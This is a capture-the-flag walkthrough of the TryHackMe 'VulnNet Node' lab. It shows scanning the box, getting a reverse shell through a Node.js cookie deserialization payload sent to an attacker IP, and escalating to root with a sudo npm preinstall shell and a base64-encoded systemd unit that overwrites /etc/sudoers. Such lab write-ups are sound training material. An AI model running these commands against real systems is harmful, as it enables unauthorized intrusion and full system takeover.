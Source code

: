 In this walkthrough, we'll go over a challenge (intermediate) level box called "Vulnnet Node" on [TryHackMe](https://tryhackme.com/room/vulnnetnode) 

![Vulnnet-Node](vulnnetNode.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.203.200 --open
```
Per the nmap result, it looks like the only port open is 8080:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 17:10 EDT
Nmap scan report for 10.10.203.200
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.10 seconds
```
When we visit the website, we see a bunch of feeds:
![Vulnnet Node index](vN-index-html.png)

We can run dirsearch `dirsearch -u http://10.10.203.200:8080 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt --plain-text-report=vulnnetNode-dirsearch.txt`:
![Vulnnet Node dirsearch](vN-dirsearch.png)

If we perform further inspection, we can see that the GET request provided a cookie:
![Vulnnet Node cookie](vN-cookie.png)

Once we put the cookie string into the decoder we get the below data:
![Vulnnet Node decode cookie](vN-cookie-decoding.png)

We can then use the following GitHub https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py to download the Python file and generate the below reverse shell payload:
`python nodejsshell.py 10.13.6.172 5555`
![Vulnnet Node payload](vN-reverse-shell-payload.png)

We then encode it with base 64 in the Burp decoder:
![Vulnnet Node decode](vN-encode-payload.png)

We start a nc listener and paste the encoded payload into the cookie section in the repeater and then send it:
![Vulnnet Node send payload](vN-send-payload.png)

We are able to receive a shell back:

![Vulnnet Node shell](vN-initial-foothold.png)

Upon running `sudo -l`, we can see that serv-manage cound run "/usr/bin/npm":
![Vulnnet Node sudo -l](vN-www-sudo-l.png)

At this point, we can follow the instructions from GTFObin https://gtfobins.github.io/gtfobins/npm/#sudo
```bash
www@vulnnet-node:~/VulnNet-Node/node_modules$ TF=$(mktemp -d)
TF=$(mktemp -d)
www@vulnnet-node:~/VulnNet-Node/node_modules$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
www@vulnnet-node:~/VulnNet-Node/node_modules$ chmod 777 $TF
chmod 777 $TF
www@vulnnet-node:~/VulnNet-Node/node_modules$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
![Vulnnet Node GTFObin](vN-serv-manage.png)

After becoming serv-manage, we can run again `sudo -l`:
![Vulnnet Node serv-manage](vN-serv-manage-sudo-l.png)

A closer look to vulnnet-auto.timer reveals that the timer and vulnnet-job.service need to be changed:
![Vulnnet Node autotime](vN-auto-timer.png)
![Vulnnet Node service](vN-job-service.png)

Since we can't directly change the contents of the files, we could to use https://www.base64encode.org/ and put the below into the converter:
```bash
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```

![Vulnnet Node encode payload](vN-encode-payload 1.png)

We could then use the following to edit "/etc/systemd/system/vulnnet-job.service"
```bash
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPUxvZ3Mgc3lzdGVtIHN0YXRpc3RpY3MgdG8gdGhlIHN5c3RlbWQgam91cm5hbApXYW50cz12dWxubmV0LWF1dG8udGltZXIKCltTZXJ2aWNlXQojIEdhdGhlciBzeXN0ZW0gc3RhdGlzdGljcwpUeXBlPWZvcmtpbmcKRXhlY1N0YXJ0PS9iaW4vc2ggLWMgJ2VjaG8gInNlcnYtbWFuYWdlIEFMTD0ocm9vdCkgTk9QQVNTV0Q6IEFMTCIgPiAvZXRjL3N1ZG9lcnMnCgpbSW5zdGFsbF0KV2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQ=' | base64 -d > /etc/systemd/system/vulnnet-job.service
```

We then run each command:

![Vulnnet Node payload execute](vN-payload-executed.png)
![Vulnnet Node root](vN-root-txt.png)

This is one of the machines that has a lot of steps to get a root shell.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
